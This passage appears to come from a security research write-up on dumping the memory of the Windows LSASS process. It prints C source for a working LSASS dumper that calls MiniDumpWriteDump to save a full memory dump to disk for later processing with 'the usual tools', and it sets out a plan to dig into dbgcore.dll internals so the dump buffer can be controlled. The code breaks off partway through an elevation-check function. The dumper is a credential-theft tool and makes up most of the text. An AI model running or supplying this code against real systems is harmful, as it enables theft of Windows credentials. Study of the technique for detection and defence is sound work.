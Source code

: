 `MiniDumpWriteDump` takes care of all the magic comes-and-goes related to acquiring process memory and writing it to the provided file. So nice of it!

However, this kind of automated process lefts us with no control whatsoever over the memory buffer written to the file. 

We thought it might be nice to have a way to overcome such a limitation. 


# Digging dbgcore.dll internals

To inspect the inners, we'll be firing up WinDbg with a, rather simple, `LSASS` dumper implementation making use of the arch-known `MiniDumpWritedump`.
This implementation requires the `LSASS` process PID as parameter to run. Calling it, will provide a full memory dump saved to `c:\test.dmp`. Simple as that. This `.dmp`file can be processed with the usual tools. 


```c
#include <stdio.h>
#include <Windows.h>
#include <DbgHelp.h>

#pragma comment (lib, "Dbghelp.lib")

void minidumpThis(HANDLE hProc)
{
 
    const wchar_t* filePath = L"C:\\test.dmp";
    HANDLE hFile = CreateFile(filePath, GENERIC_ALL, 0, nullptr, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, nullptr);
    if (!hFile)
    {
        printf("No dump for you. Wrong file\n");
    } 
    else
    {
        DWORD lsassPid = GetProcessId(hProc);
        printf("Got PID:: %i\n", lsassPid);

        BOOL Result = MiniDumpWriteDump(hProc, lsassPid, hFile, MiniDumpWithFullMemory, NULL, NULL, NULL);

        CloseHandle(hFile);

        if (!Result)
        {
            printf("No dump for you. Minidump failed\n");
        }
    }

    return;
}

BOOL IsElevated() {
    BOOL fRet = FALSE;
    HANDLE hToken = NULL;
    if (OpenProcessToken(GetCurrentProcess(), TOKEN_QUERY, &hToken)) {
        TOKEN_ELEVATION Elevation = { 0 };
        DWORD cbSize = sizeof(TOKEN_ELEVATION);
        if (GetTokenInformation(hToken, TokenElevation, &Elevation, sizeof(Elevation), &cbSize)) {
            fRet = Elevation.TokenIsElevated;
        }
    }
    if (hToken) {
```